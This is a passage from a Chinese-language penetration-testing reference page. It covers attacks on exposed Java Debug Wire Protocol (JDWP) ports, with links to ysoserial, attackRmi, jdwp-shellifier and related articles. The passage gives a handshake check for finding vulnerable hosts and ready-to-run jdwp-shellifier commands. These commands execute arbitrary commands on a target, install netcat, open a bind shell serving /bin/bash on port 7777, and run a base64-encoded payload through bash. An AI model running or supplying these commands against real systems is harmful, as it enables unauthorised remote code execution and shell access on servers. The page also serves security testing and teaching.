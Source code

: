 - 相关工具
    - [frohoff/ysoserial: A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.](https://github.com/frohoff/ysoserial)
    - [A-D-Team/attackRmi](https://github.com/A-D-Team/attackRmi)

**jdwp**

- 描述

    JDWP 是 Java Debug Wire Protocol 的缩写，在 JPDA（Java Platform Debugger Architecture）中，它定义了调试器（debugger）和被调试的 Java 虚拟机（target vm）之间的通信协议。

    与 PHP 的 Xdebug 类似，当其调试端口直接开放在公网上时，很容易被攻击者攻击并且获取系统权限。

- 指纹
    - `JDWP-Handshake`
        ```
        telnet 端口后，输入命令 JDWP-Handshake
        如果返回 JDWP-Handshake，证明存在漏洞。
        ```
        ```
        jdb -attach IP:PORT
        ```

- 相关文章
    - [JDWP无依赖攻击](https://xz.aliyun.com/t/7303)
    - [浅析常见Debug调试器的安全隐患](https://security.tencent.com/index.php/blog/msg/137)
    - [jdwp远程调试与安全](https://qsli.github.io/2018/08/12/jdwp/)
    - [jdwp命令执行](https://blog.csdn.net/caiqiiqi/article/details/83146415)
    - [某大厂红队评估_之_JDWP打点](https://mp.weixin.qq.com/s/PPyXTdqWP1OAHYnYL9CScQ)

- 相关工具
    - [IOActive/jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier)
        ```
        jdwp-shellifier.py -t xx.xx.xx.xx -p 8080 --break-on java.lang.String.indexOf --cmd 'touch /tmp/pwnd'

        jdwp-shellifier.py -t xx.xx.xx.xx -p 8080 --break-on java.lang.String.indexOf --cmd 'rm -f /var/run/yum.pid'
        jdwp-shellifier.py -t xx.xx.xx.xx -p 8080 --break-on java.lang.String.indexOf --cmd 'yum install -y nc'
        jdwp-shellifier.py -t xx.xx.xx.xx -p 8080 --break-on java.lang.String.indexOf --cmd 'ncat -v -l -p 7777 -e /bin/bash'

        jdwp-shellifier.py -t xx.xx.xx.xx -p 8000 --break-on java.lang.String.indexOf --cmd "bash -c {echo,  bash64的payload  } | {base64,-d} | {bash,-i}"
        ```
    - [Lz1y/jdwp-shellifier](https://github.com/Lz1y/jdwp-shellifier) - 修改利用方式为通过对 Sleeping 的线程发送单步执行事件，达成断点，从而可以直接获取上下文、执行命令，而不用等待断点被击中。

---

### Python

**Python_PDB**
